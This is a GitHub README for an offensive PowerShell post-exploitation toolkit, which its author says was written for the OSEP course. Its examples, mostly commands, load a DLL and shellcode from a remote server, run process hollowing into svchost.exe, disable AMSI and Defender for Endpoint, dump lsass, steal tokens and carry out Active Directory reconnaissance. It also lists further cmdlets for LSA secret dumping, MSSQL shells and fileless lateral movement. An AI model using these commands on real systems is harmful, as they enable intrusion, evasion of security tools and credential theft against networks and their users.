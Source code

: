 # TortugaToolKit

Written during OSEP course, for learning purposes. Used heavily during the exam with much success. Thanks to all the open source projects out there that i was able to use and learn from.

## Examples

Load it

```powershell
$a=[System.Reflection.Assembly]::Load($(IWR -Uri http://yourserver/tortugatoolkit.dll -UseBasicParsing).Content);
Import-Module -Assembly $a
```

Example of remotely loading and encrypting shellcode, then performing proc hollow with it
```powershell
$code = Invoke-EncryptShellcode -shellcode $(IWR -Uri 'http://ip/shellcode.bin' -usebasicparsing).Content
INVPH -encsh $code.encryptedShellcode -k $code.encryptionKey -ivk $code.initVectorKey -pn 'svchost.exe' -Verbose
```
Example of performing ping sweep then admin check on subnet
```powershell
$s = Invoke-PingSweep -s "172.16.23.0";
foreach($h in $s){Invoke-AdminCheck -t $h}

Invoke-AdminCheck -h $(Invoke-PingSweep -s "172.16.75.0")
```
Example of impersonation via process token then running SharpView (or sharphound) as that domain user
```powershell
Invoke-TokenStealer -procH $false

Get-CurrentIdentity

Invoke-TurtleView -c "Get-DomainComputers";
Invoke-TurtleHound
```
Example of disabling amsi then disabling defender for endpoint and performing lsass process dump
```powershell
Disable-AyEmEsEye -Verbose
Disable-DefenderForEndpoint
Invoke-TurtleDump
Enable-DefenderForEndpint

```
Example of loading and executing a c# assembly
```powershell
Invoke-AssemblyLoader -e $false -l $false -path "http://ip/payload" -name namespace -clss targetclass -run method

```

## Cmdlets

```
Disable-AyEmEsEye
Disable-DefenderForEndpoint
Disable-Etw
Enable-DefenderForEndpoint
Enable-Privileges
Get-ActiveDirectoryComputers
Get-ActiveDirectoryForests
Get-ActiveDirectoryGroupMembership
Get-ActiveDirectoryGroups
Get-ActiveDirectoryUsers
Get-CurrentIdentity
Get-MsSQLQuery
Get-SQLInfo
Get-System
Get-TrustedInstaller
Invoke-AdminCheck
Invoke-AssemblyLoader
Invoke-ClassicInjection
Invoke-FileLessLateralMovement
Invoke-LsaSecretsDmp
Invoke-MsSQLAssembly
Invoke-MsSQLShell
Invoke-PingSweep
Invoke-ProcessHollow
Invoke-ShellcodeEncryption
Invoke-TokenStealer
Invoke-TurtleDump
Invoke-TurtleHound
Invoke-TurtleUp
Invoke-TurtleView
Undo-Impersonation

```

## Credits

* https://github.com/GhostPack/SharpUp
* https://github.com/tevora-threat/SharpView
* https://github.com/BloodHoundAD/SharpHound3
* https://devblogs.microsoft.com/scripting/use-powershell-to-decrypt-lsa-secrets-from-the-registry/
* https://github.com/clymb3r/PowerShell/blob/master/Invoke-TokenManipulation/Invoke-TokenManipulation.ps1
* https://www.exploit-db.com/exploits/13054
* https://github.com/latortuga71/latortugaDump
* https://github.com/b4rtik/ATPMiniDump
* https://www.matteomalvica.com/blog/2019/12/02/win-defender-atp-cred-bypass/
* https://github.com/cobbr/SharpSploit
* https://medium.com/csis-techblog/silencing-microsoft-defender-for-endpoint-using-firewall-rules-3839a8bf8d18
* https://0x00-0x00.github.io/research/2018/10/21/Windows-API-And-Impersonation-Part-2.html
* https://github.com/latortuga71/DisableDefenderForEndpointPOC
* https://institute.sektor7.net/
* https://www.mike-gualtieri.com/posts/red-team-tradecraft-loading-encrypted-c-sharp-assemblies-in-memory
* https://dotnetninja.net/2020/03/creating-a-powershell-cmdlet-in-c/
* https://king-sabri.net/how-to-compile-embed-and-use-sharpsploit/
* https://www.tiraniddo.dev/2017/08/the-art-of-becoming-trustedinstaller.html
* https://www.codeproject.com/articles/18102/howto-almost-everything-in-active-directory-via-c
* https://www.offensive-security.com/pen300-osep/
* https://github.com/Mr-Un1k0d3r/SCShell

## Unlicense

```
This is free and unencumbered software released into the public domain.


Anyone is free to copy, modify, publish, use, compile, sell, or
distribute this software, either in source code form or as a compiled
binary, for any purpose, commercial or non-commercial, and by any
means.


In jurisdictions that recognize copyright laws, the author or authors
of this software dedicate any and all copyright interest in the
software to the public domain. We make this dedication for the benefit
of the public at large and to the detriment of our heirs and
successors. We intend this dedication to be an overt act of
relinquishment in perpetuity of all present and future rights to this
software under copyright law.


THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND,
EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT.
IN NO EVENT SHALL THE AUTHORS BE LIABLE FOR ANY CLAIM, DAMAGES OR
OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE,
ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR
OTHER DEALINGS IN THE SOFTWARE.

```

For more information, please refer to <http://unlicense.org/>
